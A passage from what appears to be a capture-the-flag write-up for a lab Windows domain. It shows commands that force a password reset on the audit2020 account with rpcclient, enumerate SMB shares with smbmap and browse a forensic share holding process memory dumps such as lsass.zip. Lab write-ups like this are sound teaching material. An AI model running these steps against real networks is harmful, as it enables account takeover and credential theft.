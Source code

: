 `rpcclient` can be used to exploit this and change the password of this user to something else. Take note that there's a password policy present, and it can reject the change if the password does not meet the requirements:

```
$ rpcclient -U support 10.129.105.19
Password for [WORKGROUP\support]:
rpcclient $> setuserinfo2 audit2020 23 'password123'
result: NT_STATUS_PASSWORD_RESTRICTION
result was NT_STATUS_PASSWORD_RESTRICTION
rpcclient $> setuserinfo2 audit2020 23 'Password@123'
```

### Forensic Share

With this new password, we can check what shares are available to our new user:

```
$ smbmap -u audit2020 -p 'Password@123' -H 10.129.105.19
[+] IP: 10.129.105.19:445       Name: blackfield.local                                  
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        forensic                                                READ ONLY       Forensic / Audit share.
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        profiles$                                               READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share
```

We can read the `forensic` share:

```
$ smbclient -U audit2020 //10.129.105.19/forensic       
Password for [WORKGROUP\audit2020]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 08:03:16 2020
  ..                                  D        0  Sun Feb 23 08:03:16 2020
  commands_output                     D        0  Sun Feb 23 13:14:37 2020
  memory_analysis                     D        0  Thu May 28 16:28:33 2020
  tools                               D        0  Sun Feb 23 08:39:08 2020
```

Within the `memory_analysis` file, there was a `lsass.zip` file:

```
smb: \memory_analysis\> ls
  .                                   D        0  Thu May 28 16:28:33 2020
  ..                                  D        0  Thu May 28 16:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 16:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 16:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 16:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 16:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 16:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 16:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 16:25:25 2020
  RuntimeBroker.zip                   A 13332174  Thu May 28 16:26:24 2020
  ServerManager.zip                   A 131983313  Thu May 28 16:26:49 2020
  sihost.zip                          A 33141744  Thu May 28 16:27:00 2020
  smartscreen.zip                     A 33756344  Thu May 28 16:27:11 2020
  svchost.zip                         A 14408833  Thu May 28 16:27:19 2020
  taskhostw.zip                       A 34631412  Thu May 28 16:27:30 2020
  winlogon.zip                        A 14255089  Thu May 28 16:27:38 2020
  wlms.zip                            A  4067425  Thu May 28 16:27:44 2020
  WmiPrvSE.zip                        A 18303252  Thu May 28 16:27:53 2020
```